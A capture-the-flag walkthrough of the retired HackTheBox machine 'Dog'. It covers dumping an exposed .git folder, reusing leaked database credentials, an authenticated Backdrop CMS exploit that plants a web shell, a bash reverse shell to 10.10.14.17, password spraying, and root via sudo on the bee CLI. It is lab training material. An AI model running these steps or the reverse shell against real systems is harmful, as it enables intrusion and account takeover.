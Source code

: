 ```yaml
---
title: Dog
categories: [HackTheBox]
tags: [cve, codereview]
media_subpath: /images/hackthebox_dog/
image:
  path: 'https://labs.hackthebox.com/storage/avatars/426830ea2ae4f05f7892ad89195f8276.png'
---
```


# Summary 
Dog is a retired easy HackTheBox machine that involves exploiting a vulnerable version of Backdrop CMS to gain initial access by reading an exposed `.git` folder, enumerating valid username and password for the administration page and exploiting a vulnerability from the running version of the CMS, followed by privilege escalation through a backdrop CMS cli utilitary, called `bee`.

# Walkthrough

## Nmap Scan

```bash
sudo nmap -Pn -sVC -oN nmap $IP -p-
```

```bash
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
```

From the `nmap` scan we have an indication that the target is running an Ubuntu server with SSH and HTTP services open.


## 80 - Web Server
### Enumeration

By first accessing the web server, we can see a simple page with a dog image and a link to a login page.

![NON](file-20250711125430776.png)

Looking at the bottom of the page, we can see that the web server is running with the `Backdrop CMS`, which is an open-source content management system (CMS) designed for small to medium-sized websites.

![NON](file-20250711135239693.png)

Since it is an open-source CMS, we can search for the files present in the web server. Looking at the source code of the page, we can see that there is a `robots.txt` file, `LICENSE` and `README.md` files.

![NON](file-20250711125904971.png)

![NON](file-20250711125913714.png)
There was not much information on those files, so I started with the `dirsearch` tool to enumerate the directories and files present in the web server.

```bash
dirsearch -u http://10.10.11.58
```

![NON](file-20250711130003853.png)

There was an exposed `.git` folder, which we can use to reconstruct the source code of the web server, look at previous commits, and find sensitive information.

To dump the contents of the `.git` folder, we can use the `git-dumper` tool.

```bash
git-dumper http://10.10.11.58 src
```

And now we have the source code of the web server in the `src` folder.
![NON](file-20250711130247742.png)

### Finding sensitive information
Looking at the `settings.php` file, we can see that the web server is using a MySQL database alongside with the `root` credentials of the database.

![NON](file-20250711130311632.png)

There was also a folder made of random characters, which would not be caught by the `dirsearch` tool.

![NON](file-20250711130445924.png)

There are 6133 files on that folder, and it is not possible to look at all of them manually. So we can use the `grep` command to search for interesting strings in those files.

#### Finding valid username
We start by searching for references to the `dog` word, which is the name of the target machine, which gave us a possible username.

![NON](file-20250711130618738.png)

Trying to login with that username and the password we found in the `settings.php` file, we can successfully login into the web server.

![NON](file-20250711130953412.png)


Looking at the `status report` page, we found the current version of the `CMS` running at the target, being `1.27.1`

![NON](file-20250711140355258.png)

Looking at public exploites for that specific version, we can find an [authenticated remote command execution vulnerability](https://www.exploit-db.com/exploits/52021), which allows us to execute arbitrary commands on the target machine.

### Exploiting the vulnerability
By running the exploit, it creates a `shell.zip` file, which we can use to install a custom module on the server and from there we can execute arbitrary commands.

![NON](file-20250711131725453.png)

![NON](file-20250711131704830.png)

By sending the `zip` file created by the exploit, we received an error message indicating that `zip` files are not allowed to be uploaded, it only allows `tar, tgz, gz and bz2` files.


```bash
tar -czvf shell.tar.gz shell/*
```


![NON](file-20250711140715542.png)

So instead of using the `zip` file, we created the `tar.gz` file with the same contents, which is the `shell.zip` file.

After that, we try accessing the `shell` module, which is located at `modules/shell/shell.php`, and we have a simple web shell that allows us to execute commands on the target machine.

![NON](file-20250711131847934.png)

## Foothold
We sen our reverse shell payload `bash -c 'bash -i >& /dev/tcp/10.10.14.17/9999 0>&1'`, and got access to the target machine.

![NON](file-20250711131944291.png)

### Lateral Privilege Escalation
Looking at the `/etc/passwd` file, we can see that the following users are present on the target machine:

```bash
cat /etc/passwd | grep "sh$"
```

```bash
root:x:0:0:root:/root:/bin/bash
jobert:x:1000:1000:jobert:/home/jobert:/bin/bash
johncusack:x:1001:1001:,,,:/home/johncusack:/bin/bash
```

Trying a password spray with the password we found in the `settings.php` file, we can successfully login into the `johncusack` user.

![NON](file-20250711133333620.png)

## Privilege Escalation
Looking at the `sudo` permissions of the `johncusack` with `sudo -l`, we can see that the user can run the `bee` binary as root without a password.
![NON](file-20250711133356334.png)

Bee is a command-line tool utility for the Backdrop CMS, we can see its [documentation here](https://github.com/backdrop-contrib/bee).

Looking at the help section of the `Bee` binary, we can see that it can run arbitrary php code, making it possible to escalate privileges to root.

![NON](file-20250711133501856.png)
Trying to execute the command with the `eval` flag, we receive an error message "The required bootstrap level for `eval` is not ready."


![NON](file-20250711133540530.png)

Looking at the help, we see it is trying to use the `--root` flag at our current working directory, which is not a valid Backdrop CMS root directory. So we can use the `--root` flag to specify the root directory of the Backdrop CMS, which is `/var/www/html`, or run the command from that directory, granting us `root` command execution.

![NON](file-20250711141853268.png)

![NON](file-20250711133846290.png)
